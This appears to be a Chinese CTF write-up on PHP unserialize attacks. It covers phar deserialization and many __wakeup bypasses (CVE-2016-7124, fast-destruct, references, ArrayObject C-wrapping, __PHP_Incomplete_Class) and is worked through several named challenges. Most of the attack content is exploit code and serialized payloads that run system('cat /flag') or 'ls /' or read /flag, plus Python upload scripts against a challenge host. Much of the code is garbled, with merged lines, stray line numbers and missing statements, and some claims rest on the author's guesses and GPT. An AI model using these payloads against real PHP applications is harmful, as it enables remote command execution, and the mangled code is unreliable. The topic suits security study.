那么思路有了：首先通过文件写入函数，写入phar数据（其中的数据为我们要反序列化的getflag类），接着通过文件读取函数，读取phar文件触发反序列化，拿到flag。
接下来先编写phar
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 <?php class getflag $phar = new Phar ("1.phar" ); $phar ->startBuffering ();$phar ->setStub ("<?php __HALT_COMPILER();?>" ); $a = new getflag ();$a = array ($a , 0 );$phar ->setMetadata ($a ); $phar ->addFromString ("test.txt" , "test" ); $phar ->stopBuffering ();?>
但这里值得注意的点是，在phar反序列化的时候，如下图标记处，可以看到这里的Metadata属性引用了我们的$a，这会导致在反序列化的时候，会触发题目的异常而无法调用析构函数，因此需要采用反序列化数组绕过

这里对生成的phar文件，用010打开后修改数组索引，之后需要重新计算phar签名

数组绕过
修改成功，接下来就是绕过正则了，这里采用数组绕过，或者通过gzip等协议压缩也可，这样其内部数据就不是明文了，也就绕过了关键字的过滤。–这里先用数组绕过，脚本如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 import requestsimport re"http://node4.anna.nssctf.cn:28672/" with open ("phar.phar" ,'rb' ) as f:'0[]' :f.read()} 0 : 'O:1:"A":1:{s:6:"config";s:1:"w";}' }0 :'O:1:"A":1:{s:6:"config";s:1:"r";}' }0 :"phar://tmp/a.txt" }compile ('NSSCTF\{.*?\}' ).findall(res2.text)print (flag)

得到flag
gzip压缩绕过
gzip bzip2 tar zip 这四个后缀同样也支持phar://读取
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 import requestsimport gzipimport re'http://node4.anna.nssctf.cn:28672/' with open ("D:\\PphProject\\Scripts\\newtest.phar" , "rb" ) as f1:open ("gzip.zip" , "wb" )with open ("phar.zip" , "rb" ) as f2:0 :f2.read()0 :'O:1:"A":1:{s:6:"config";s:1:"w";}' 0 :'O:1:"A":1:{s:6:"config";s:1:"r";}' 0 :"phar://tmp/a.txt" compile ('NSSCTF\{.*?\}' ).findall(res.text)print (flag)
tar压缩绕过
在guoke师傅的文章中有PHP对tar文件的phar://的底层处理源码分析，其中有涉及到.phar/.metadata这个文件，这里只讲怎么操作
先新建一个.phar文件夹，在文件夹中新建.metadata文件，内容直接写入a:2:{i:0;O:7:"getflag":0:{}i:0;N;}
将文件夹拖入Linux中，tar -cf tartest.tar .phar/生成新文件后再对新文件gzip一下得到tartest.tar.gz文件，再POST这个文件的内容，再读取获得flag
（这里需要注意，.phar在Linux中显示为隐藏文件，所以拖入后可能会看不见，利用ls -al可以看到）
具体原理看参考文章
cve-2016-7124绕过
这个是最常见的，就简单过一下
影响范围：
PHP5 < 5.6.25
PHP7 < 7.0.10
正常来说在反序列化过程中，会先调用wakeup()方法再进行unserilize()，但如果序列化字符串中表示对象属性个数的值大于真实的属性个数时，wakeup()的执行会被跳过。
但看了篇文章，发现这里还大有说法？？？
绕过原理：
反序列化后由于属性值个数不匹配，被PHP当作垃圾回收。（本质是GC回收机制），进一步探索，如果换成类包类的情况，就是类属性还是一个类。
1 2 3 4 5 6 1 :“A”:2 :{s:4 :“info”;O:1 :“B”:1 :{s:3 :“end”;N;}s:3 :“end”;s:1 :“1 ”;}1 :“A”:2 :{s:4 :“info”;O:1 :“B”:2 :{s:3 :“end”;N;}s:3 :“end”;s:1 :“1 ”;}1 :“A”:3 :{s:4 :“info”;O:1 :“B”:1 :{s:3 :“end”;N;}s:3 :“end”;s:1 :“1 ”;}
原理：
1 2 3 4 5 反序列化，它是先从外面开始反序列化，而不是里面。通俗讲，就是类A里面的属性是类B，则先反序列化类A再反序列化类B。
这听起来像fast-destruct，不是像，就是同一个东西，其实本质上都是PHP的GC回收机制罢了。
php引用赋值绕过
在php里，我们可使用引用的方式让两个变量同时指向同一个内存地址，这样对其中一个变量操作时，另一个变量的值也会随之改变。
比如：
1 2 3 4 5 6 7 8 9 10 <?php function test (&$a )$x =&$a ;$x ='123' ;$a ='11' ;test ($a );echo $a ;?>
可以看到这里我们虽然最初$a=‘11’，但由于我们通过$x=&$a使两个变量同时指向同一个内存地址了，所以使$x='123’也导致$a='123’了，举个例子：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 <?php class KeyPort public $key ;public function __destruct ( {$this ->key=False;if (!isset ($this ->wakeup)||!$this ->wakeup){echo "You get it!" ;public function __wakeup ($this ->wakeup=True;if (isset ($_POST ['pop' ])){unserialize ($_POST ['pop' ]);?>
如果反序列化，那wakeup变量一定为true，那if(!isset($this->wakeup)||!$this->wakeup)就不可能绕过，如果此时无法通过修改属性值个数绕过的话。就可以尝试引用，我们注意到key的值为false
那如果此时我们这样写：
1 2 3 4 5 $this ->key=False;$this ->key=&this->wakeup$keyport = new KeyPort ();$keyport ->key=&$keyport ->wakeup;
即可成功绕过

fast-destruct绕过
引用一下大佬的解释：
在PHP中如果单独执行unserialize()函数，则反序列化后得到的生命周期仅限于这个函数执行的生命周期，在执行完unserialize()函数时就会执行__destruct()方法
而如果将unserialize()函数执行后得到的字符串赋值给了一个变量，则反序列化的对象的生命周期就会变长，会一直到对象被销毁才执行析构方法
我们可以看到DASCTF X GFCTF 2022十月挑战赛里EasyPOP这道题，源码是：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 <?php highlight_file (__FILE__ );error_reporting (0 );class fine private $cmd ;private $content ;public function __construct ($cmd , $content {$this ->cmd = $cmd ;$this ->content = $content ;public function __invoke ( {call_user_func ($this ->cmd, $this ->content);public function __wakeup ( {$this ->cmd = "" ;die ("Go listen to Jay Chou's secret-code! Really nice" );class show public $ctf ;public $time = "Two and a half years" ;public function __construct ($ctf {$this ->ctf = $ctf ;public function __toString ( {return $this ->ctf->show ();public function show (string {return $this ->ctf . ": Duration of practice: " . $this ->time;class sorry private $name ;private $password ;public $hint = "hint is depend on you" ;public $key ;public function __construct ($name , $password {$this ->name = $name ;$this ->password = $password ;public function __sleep ( {$this ->hint = new secret_code ();public function __get ($name {$name = $this ->key;$name ();public function __destruct ( {if ($this ->password == $this ->name) {echo $this ->hint;else if ($this ->name = "jay" ) {secret ();else {echo "This is our code" ;public function getPassword ( {return $this ->password;public function setPassword ($password void {$this ->password = $password ;class secret_code protected $code ;public static function secret ( {include_once "hint.php" ;hint ();public function __call ($name , $arguments {$num = $name ;$this ->$num ();private function show ( {return $this ->code->secret;if (isset ($_GET ['pop' ])) {$a = unserialize ($_GET ['pop' ]);$a ->setPassword (md5 (mt_rand ()));else {$a = new show ("Ctfer" );echo $a ->show ();
可以看到这里有个难点就是wakeup的绕过：
1 2 3 4 5 public function __wakeup ($this ->cmd = "" ;die ("Go listen to Jay Chou's secret-code! Really nice" );
exp:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 <?php class sorry public $name ;public $password ;public $key ;public $hint ;class show public $ctf ;class secret_code public $code ;class fine public $cmd ;public $content ;public function __construct ( {$this ->cmd = 'system' ;$this ->content = ' /' ;$a =new sorry ();$b =new show ();$c =new secret_code ();$d =new fine ();$a ->hint=$b ;$b ->ctf=$c ;$e =new sorry ();$e ->hint=$d ;$c ->code=$e ;$e ->key=$d ;echo (serialize ($a ));
直接传进去毫无疑问会因为die()而终止，这里我们就可以用fast-destruct这个技巧使destruct提前发生以绕过wakeup()，比如我们可以减少一个} ：
1 ?pop=O:5 :"sorry" :4 :{s:4 :"name" ;N;s:8 :"password" ;N;s:3 :"key" ;N;s:4 :"hint" ;O:4 :"show" :1 :{s:3 :"ctf" ;O:11 :"secret_code" :1 :{s:4 :"code" ;O:5 :"sorry" :4 :{s:4 :"name" ;N;s:8 :"password" ;N;s:3 :"key" ;O:4 :"fine" :2 :{s:3 :"cmd" ;s:6 :"system" ;s:7 :"content" ;s:9 :"cat /flag" ;}s:4 :"hint" ;r:10 ;}}}
或者在r;10;后面加一个1：
1 ?pop=O:5 :"sorry" :4 :{s:4 :"name" ;N;s:8 :"password" ;N;s:3 :"key" ;N;s:4 :"hint" ;O:4 :"show" :1 :{s:3 :"ctf" ;O:11 :"secret_code" :1 :{s:4 :"code" ;O:5 :"sorry" :4 :{s:4 :"name" ;N;s:8 :"password" ;N;s:3 :"key" ;O:4 :"fine" :2 :{s:3 :"cmd" ;s:6 :"system" ;s:7 :"content" ;s:9 :"cat /flag" ;}s:4 :"hint" ;r:10 ;1 }}}}
都可以实现wakeup绕过，也有下面的绕过方法
本质上就是利用GC回收机制，方法有两种，删除末尾的花括号、数组对象占用指针（改数字）
1 2 3 4 $a = new a ();array ( arry = array (arry=array (a,“1234 ”);serialize (result=serialize (result=serialize (arry);echo $result ;
1 2 3 4 5 6 2 :{i:0 ;O:1 :“a”:1 :{s:1 :“a”;s:3 :“123 ”;}i:1 ;s:4 :“1234 ”;}2 :{i:0 ;O:1 :“a”:1 :{s:1 :“a”;s:3 :“123 ”;}i:1 ;s:4 :“1234 ”;2 :{i:0 ;O:1 :“a”:1 :{s:1 :“a”;s:3 :“123 ”;}i:0 ;s:4 :“1234 ”;}
属性键长度不匹配绕过
也叫 php issue#9618，版本条件：
1 2 3 4 5 1 :“A”:2 :{s:4 :“info”;O:1 :“B”:1 :{s:3 :“end”;N;}s:4 :“Aend”;s:1 :“1 ”;}1 :“A”:2 :{s:4 :“info”;O:1 :“B”:1 :{s:3 :“end”;N;}s:6 :“Aend”;s:1 :“1 ”;}
属性值的长度不匹配绕过
1 2 3 4 5 6 1 :“A”:2 :{s:4 :“info”;O:1 :“B”:1 :{s:3 :“end”;N;}s:4 :“Aend”;s:1 :“1 ”;}1 :“A”:2 :{s:4 :“info”;O:1 :“B”:1 :{s:3 :“end”;N;}s:4 :“Aend”;s:2 :“1 ”;}1 :“A”:2 :{s:4 :“info”;O:1 :“B”:1 :{s:3 :“end”;N;}s:4 :“Aend”;s:1 :“12 ”;}
对此稍微总结一下，前面我们的绕过方法无非就是修改数组索引、删除分号、删除花括号、修改属性值和属性键的长度。接下来认真分析分析是如何绕过的：这里有一个点就是fast-destruct的本质是序列化的字符串格式不对导致反序列失败反而成为垃圾数据然后触发强行GC
对于这个payload
1 2 3 4 5 :"sorry" :4 :{s:4 :"name" ;N;s:8 :"password" ;N;s:3 :"key" ;N;s:4 :"hint" ;O:4 :"show" :1 :{s:3 :"ctf" ;O:11 :"secret_code" :1 :{s:4 :"code" ;O:5 :"sorry" :4 :{s:4 :"name" ;N;s:8 :"password" ;N;s:3 :"key" ;O:4 :"fine" :2 :{s:3 :"cmd" ;s:6 :"system" ;s:7 :"content" ;s:9 :"cat /flag" ;}s:4 :"hint" ;r:10 ;}}}5 :"sorry" :4 :{s:4 :"name" ;N;s:8 :"password" ;N;s:3 :"key" ;N;s:4 :"hint" ;O:4 :"show" :1 :{s:3 :"ctf" ;O:11 :"secret_code" :1 :{s:4 :"code" ;O:5 :"sorry" :4 :{s:4 :"name" ;N;s:8 :"password" ;N;s:3 :"key" ;O:4 :"fine" :2 :{s:3 :"cmd" ;s:6 :"system" ;s:7 :"content" ;s:9 :"cat /flag" ;}s:4 :"hint" ;r:10 ;1 }}}}
这里我们知道的是，如果该序列化字符串内部含有多个类，他反序列化的时候会由外向内进行。对于上述payload，它的修改处都是针对的最内部的类，这样的话PHP在解析的时候认为该类格式有问题，直接被GC认定为垃圾而调用析构函数去回收。
接下来继续看其他payload
1 2 3 4 5 6 7 8 9 10 11 12 1 :“A”:2 :{s:4 :“info”;O:1 :“B”:1 :{s:3 :“end”;N;}s:4 :“Aend”;s:1 :“1 ”;}1 :“A”:2 :{s:4 :“info”;O:1 :“B”:1 :{s:3 :“end”;N;}s:6 :“Aend”;s:1 :“1 ”;}1 :“A”:2 :{s:4 :“info”;O:1 :“B”:1 :{s:3 :“end”;N;}s:4 :“Aend”;s:1 :“1 ”;}1 :“A”:2 :{s:4 :“info”;O:1 :“B”:1 :{s:3 :“end”;N;}s:4 :“Aend”;s:2 :“1 ”;}1 :“A”:2 :{s:4 :“info”;O:1 :“B”:1 :{s:3 :“end”;N;}s:4 :“Aend”;s:1 :“12 ”;}
可以看到上面进行了修改外部类的数字，那进行反序列化的时候，内部类被认为是正常的，则调用内部类的wakeup，之后在处理外部类，当看到外部类长度不匹配，于是认为是垃圾，直接调用析构函数回收。
这里也就说明了上述cve的绕过，是改变类属性的值，其本质也是一样的。
此时我们又可以想到修改内部类的属性值、属性键等等的长度
1 2 O:1 :"A" :2 :{s:4 :"info" ;O:1 :"B" :1 :{s:3 :"end" ;N;}s:3 :"end" ;s:1 :"1" ;} 1 :"A" :2 :{s:4 :"info" ;O:1 :"B" :2 :{s:3 :"end" ;N;}s:3 :"end" ;s:1 :"1" ;}
这里可以看到他修改了内部B类的属性个数，这会导致反序列化的时候，PHP认为B有问题，直接调用析构消除，之后外部的A类会正常反序列化
1 O:1 :"A" :3 :{s:4 :"info" ;O:1 :"B" :1 :{s:3 :"end" ;N;}s:3 :"end" ;s:1 :"1" ;}
那这里就是第一个cve的绕过了，他会先执行B类的wakeup方法、接着认为A不正常，不会执行A的wakeup直接调用析构消除。等等等等，这里肯定还有很多的引申，比如删除内部类的分号、花括号等等。
说了这么多，其实就是我们在遇到必须得绕过wakeup的时候，可以看看该方法在哪个类下面，那我们就让哪个类的序列化数据不正常，从而直接调用该类的析构函数而绕过wakeup。
使用C绕过
版本限制：
5.3.0 - 5.3.29
5.4.0 - 5.4.45
5.5.0 - 5.5.38
5.6.0 - 5.6.40
7.0.0 - 7.0.33
7.1.0 - 7.1.33
7.2.0 - 7.2.34
7.3.0 - 7.3.28
7.4.0 - 7.4.16
8.0.0 - 8.0.3
C是因为PHP 5 中增加了接口（interface）功能。PHP 5 本身提供了一个 Serializable 接口，如果用户在自己定义的类中实现了这个接口，那么在该类的对象序列化时，就会被按照用户实现的方式去进行序列化，并且序列化后的标示不再是 O，而改为 C。C 标示的格式如下：
1 C:<name length>:"<class name>" :<data length>:{<data>}
其中 <name length> 表示类名 <class name>的长度，<data length>表示自定义序列化数据<data>的长度，而自定义的序列化数据 <data> 是完全的用户自己定义的格式，与 PHP 序列化格式可以完全无关，这部分数据由用户自己实现的序列化和反序列化接口方法来管理。
Serializable接口中定义了 2 个方法，serialize()和 unserialize($data)，这两个方法不会被直接调用，而是在调用 PHP 序列化函数时，被自动调用。其中serialize函数没有参数，它的返回值就是<data>的内容。而unserialize($data)有一个参数$data，这个参数的值就是 <data>的内容。
C可以用来绕过_wakeup，因为custom object并不支持__wakeup()，不过C需要实现unserialize才能绑定上属性值。
也就是说，使用C代替O能绕过wakeup，但那样的话只能执行construct()函数或者destruct()函数，无法添加任何内容，就是把正常的反序列化进行一次打包，让最后生成的payload以C开头即可。
那如果我们在遇到对象有属性的时候如何使用C绕过呢？
网上看到佬们选择用内置类绕过，比如ArrayObject
1 2 3 4 <?php $arr =array ("a" =>1 ,"b" =>2 );$ao =new ArrayObject ($arr );echo serialize ($ao );

可以看到是C开头的，既然是C开头的，假如我们遇到了这样的题目
2023愚人杯-easy_php
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 <?php error_reporting (0 );highlight_file (__FILE__ );class ctfshow public function __wakeup (die ("not allowed!" );public function __destruct (system ($this ->ctfshow);$data = $_GET ['1+1>2' ];if (!preg_match ("/^[Oa]:[\d]+/i" , $data )){unserialize ($data );?>
这里的正则让我们不能以O或者a开头，这里对于以前的正则绕过办法都行不通
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 <?php class ctfshow public function __wakeup (die ("not allowed!" );public function __destruct (system ($this ->ctfshow);$a =new ctfshow ();echo serialize ($a );
这里我们可以使用ArrayObject对正常的反序列化进行一次包装，让最后输出的payload以C开头。这里官方文档说：

支持参数为数组，也就是说我们可以将待反序列化的字符串，经过该内置类的包装即可。因为ArrayObject，他是C开头的，并且可以绕过O，然后还可以带属性反序列化，符合条件，因此可以构造payload：
1 2 3 4 5 6 7 8 9 10 11 12 13 <?php class ctfshow public $ctfshow ;$pop = new ctfshow ();$pop ->ctfshow = 'ls /' ;$arr = array ('hybcx' =>$pop );echo serialize (new ArrayObject ($arr ))?>
值得注意的点是，这里进行url传参的时候需要对变量中的加号进行url编码，否则会被识别为空格而无法正常传参，最后成功命令执行

最后这位佬还找到了其他可以进行包装的内置类
1 2 3 4 5 6 7 8 9 10 <?php $classes = get_declared_classes ();foreach ($classes as $class ) {$methods = get_class_methods ($class );foreach ($methods as $method ) {if (in_array ($method , array ('unserialize' ,print $class . '::' . $method . "\n" ;

经过所有测试发现可以用的类为：
ArrayObject::unserialize
ArrayIterator::unserialize
RecursiveArrayIterator::unserialize
SplObjectStorage::unserialize
SplDoublyLinkedList::unserialize
SplQueue::unserialize
SplStack::unserialize
字符i、d绕过
条件：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 <?php echo unserialize ('i:-1;' );echo "\n" ;echo unserialize ('i:+1;' );echo "\n" ;echo unserialize ('d:-1.1;' );echo "\n" ;echo unserialize ('d:+1.2;' );1 1 1.1 1.2 ?>
这里暂时不清楚能绕过什么。。。
stdClass与__PHP_Incomplete_Class 绕过
所有的类都是stdClass类的子类，stdClass是所有类的基类，下面就直接用佬的图了
在PHP中，当我们在反序列化一个不存在的类时，会发生什么呢
1 2 3 4 5 6 7 8 9 10 11 12 13 <?php $raw = 'O:1:"A":1:{s:1:"a";s:1:"b";}' ;var_dump (unserialize ($raw ));
可以发现PHP在遇到不存在的类时，会把不存在的类转换成__PHP_Incomplete_Class这种特殊的类，同时将原始的类名A存放在__PHP_Incomplete_Class_Name这个属性中，其余属性存放方式不变。
而我们在序列化这个对象的时候，serialize遇到__PHP_Incomplete_Class这个特殊类会倒推回来，序列化成__PHP_Incomplete_Class_Name值为类名的类，我们看到的序列化结果不是O:22:"__PHP_Incomplete_Class_Name":2:{xxx}而是O:1:"A":1:{s:1:"a";s:1:"b";},那么如果我们自己如下构造序列化字符串

执行结果如下图

可以看到在二次序列化后，由于O:22:"__PHP_Incomplete_Class":1:{s:1:"a";O:7:"classes":0:{}}中__PHP_Incomplete_Class_Name为空，找不到应该绑定的类，其属性就被丢弃了
强网杯2021 WhereIsUWebShell
这里网上似乎找不到靶场了，只能跟着过一遍
1 2 3 4 5 6 7 8 9 10 11 12 13 14 <?php ini_set ('display_errors' , 'on' );include "function.php" ;$res = unserialize ($_REQUEST ['ctfer' ]);if (preg_match ('/myclass/i' ,serialize ($res ))){throw new Exception ("Error: Class 'myclass' not found " );highlight_file (__FILE__ );echo "<br>" ;highlight_file ("myclass.php" );echo "<br>" ;highlight_file ("function.php" );
可以看到这里只加载了function.php文件，并且对ctfer进行一次反序列化，之后在序列化判断其中有没有myclass关键字，如果有则抛出异常
用到的其他文件如下
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 <?php class Hello public function __destruct ( { if ($this ->qwb) echo file_get_contents ($this ->qwb);?> <?php function __autoload ($classname require_once "./$classname .php" ;?>
这里可以详细了解一下__autoload的用法，例如相同目录下有这样几个文件
1 2 3 4 User.class .php;class .php;class .php;
如果我们此时在相同目录下的index.php文件中这样写：
1 2 3 4 5 6 7 8 9 function __autoload ($className include ("ucfirst($className )" .class .".php" ); $user =new User ();$person =new Person ();$Message =new Message ();
如上述代码所示，在当前文件中我们并没有对应的User、Person等类，当我们想使用的时候，会自动调用autoload方法，将类名作为参数传入，包含对应的文件。
function.php下是一个用来自动加载类的函数，比如当我们想加载一个index.php文件不存在的Hello类，我们可以通过加载一个myclass类，则function.php文件中的autoload方法的classname参数赋值为myclass，去自动的包含myclass.php文件。这样Hello类就得到了。
在这个题目中我们是想要加载Hello类来进行文件读取，但想要引入hello类就要classname为myclass的类。这个类并不存在，如果我们直接去反序列化，只会在反序列化myclass类的时候报错无法进入下一步，或者在反序列化Hello的时候找不到这个类而报错。因此就需要用到__PHP_Incomplete_Class的处理了
我们只需要在__PHP_Incomplete_Class其中添加myclass类，这样在第一次反序列化的时候是正常的，其中的myclass类会被放在__PHP_Incomplete_Class_Name中，我们可以按照如下的思路进行测试
我们先构造一个存在myclass与Hello类的文件
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 <?php class Hello public $qwb ;class myclass $pop = new Hello ();$pop ->qwb = '/flag' ;$pop1 = new myclass ();$arr = array ($pop1 , $pop );echo serialize ($arr );?>
之后我们可以删除上面两个类进一步测试
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 <?php $pop2 = 'a:2:{i:0;O:7:"myclass":0:{}i:1;O:5:"Hello":1:{s:3:"qwb";s:5:"/flag";}}' ;var_dump (unserialize ($pop2 ));array (2 ) {0 ]=>object (__PHP_Incomplete_Class )"__PHP_Incomplete_Class_Name" ]=>string (7 ) "myclass" 1 ]=>object (__PHP_Incomplete_Class )"__PHP_Incomplete_Class_Name" ]=>string (5 ) "Hello" "qwb" ]=>string (5 ) "/flag"
如上面所示，这里输出的内容我们可以看到含有了__PHP_Incomplete_Class_Name的存在，但接下来的构造似乎得手搓了。让我们这样构造
1 a:2 :{i:0 ;O:22 :"__PHP_Incomplete_Class" :1 :{s:3 :"bcx" ;O:7 :"myclass" :0 :{}}i:1 ;O:5 :"Hello" :1 :{s:3 :"qwb" ;s:5 :"/flag" ;}}
这里的话参考上面的输出是完全可以手搓的，这里感觉注意的点就是在描述__PHP_Incomplete_Class的时候似乎需要为其添加一个字符串属性，如上面这样写s:3:"bcx";O:7:"myclass"实际就是bcx=new myclass()
1 2 3 4 5 6 7 8 9 10 11 12 13 <?php $raw = 'O:1:"A":1:{s:1:"a";s:1:"b";}' ;var_dump (unserialize ($raw ));
感觉就如同上述例子一般如果我们将__PHP_Incomplete_Class_Name除去的话，由于前者__PHP_Incomplete_Class描述的是其含有两个属性A和B，那么修改的时候就应该这样
1 2 3 4 5 6 object (__PHP_Incomplete_Class )"b" ]=> string (1 ) "A" "a" ]=>string (1 ) "b"
那对于我们题目的修改就应该这样
1 2 3 4 5 6 7 8 9 10 11 12 13 14 object (__PHP_Incomplete_Class )"__PHP_Incomplete_Class_Name" ]=>string (7 ) "myclass" object (__PHP_Incomplete_Class )"bcx" ]=>string (7 ) "myclass" object (__PHP_Incomplete_Class )"bcx" ]=>object (7 ) "myclass"
毕竟这里我们需要myclass被认作是一个类，因此最终要如下图构造
1 a:2 :{i:0 ;O:22 :"__PHP_Incomplete_Class" :1 :{s:3 :"bcx" ;O:7 :"myclass" :0 :{}}i:1 ;O:5 :"Hello" :1 :{s:3 :"qwb" ;s:5 :"/flag" ;}}
这样的话在第一次反序列化的时候，他将myclass当做一个类，但当前文件没有该类，于是自动调用myclass.php文件，那么Hello类便被将在到当前文件了，接着后面反序列化Hello类的时候便会被正常解析不会报错。
但在后续序列化的对myclass关键词的检验中，由于我们的__PHP_Incomplete_Class_Name不存在，因此__PHP_Incomplete_Class识别不了后面的{s:3:"bcx";O:7:"myclass":0:{}}于是这一段代码便被删除。

最后我们也可以成功绕过了，对于上述题目我们也可以用刚刚学到的fast-destruct来绕过，即
1 2 3 4 2 :{i:0 ;O:7 :"myclass" :1 :{s:1 :"a" ;O:5 :"Hello" :1 :{s:3 :"qwb" ;s:5 :"/flag" ;}}}1 :{i:0 ;O:7 :"myclass" :1 :{s:1 :"a" ;O:5 :"Hello" :1 :{s:3 :"qwb" ;s:5 :"/flag" ;}}
按照从左至右的解析顺序，这里a的属性值正确来讲是一个，但这里修改为了两个，很明显错了，那这里我认为就是存在PHP版本的问题了（GPT说的）如果PHP版本恰当且代码处理的不规范，有可能PHP会直接调用析构函数来尝试回收数组对象a，但考虑到上述我们题目中的析构函数有着对qwb变量的处理，PHP可能会依旧向内部解析，解析到qwb变量的时候将其赋值为/flag而成功读取。
对于第二个的话，他在解析到最后发现结构错误，于是调用析构函数去处理，但由于前面已经被正确实例化了，那么也是可以成功读取到flag的
这里我在与GPT唇枪舌战的时候发现一个问题，看了很多文章说PHP反序列化的时候如果
遇到是类中嵌套类的序列化字符串，会先反序列化内部类在反序列化外部类，不过这里问了GPT发现，PHP反序列化实际上就是从左至右依次解析的。
总的来说对于fast-destruct方法很多，大致就是构造出格式错误的情况，但对于我们构造的恶意代码的存在的地方基本是不能让其错误的。
最后还发现有个闭包函数绕过，但其中的链子没学过，就不深究了，放这里看日后有缘学习一下
PHP反序列化冷知识
0x03 参考文章
PHP反序列化小技巧之Fast Destruct --这个文章我认为可以很好的理解PHP反序列化的过程
愚人杯3rd [easy_php]
绕过__wakeup() 反序列化 合集
从0学习bypass open_basedir姿势
PHP反序列化中wakeup()绕过总结
wakeup魔术方法绕过
从虎符线下CTF深入反序列化利用
浅析PHP GC垃圾回收机制及常见利用方式
[php反序列化之绕过wakeup]
PHP反序列化小技巧
prize1
prize_p1
phar反序列化+两道CTF例题
[phar反序列化][NSSCTF]prize_p1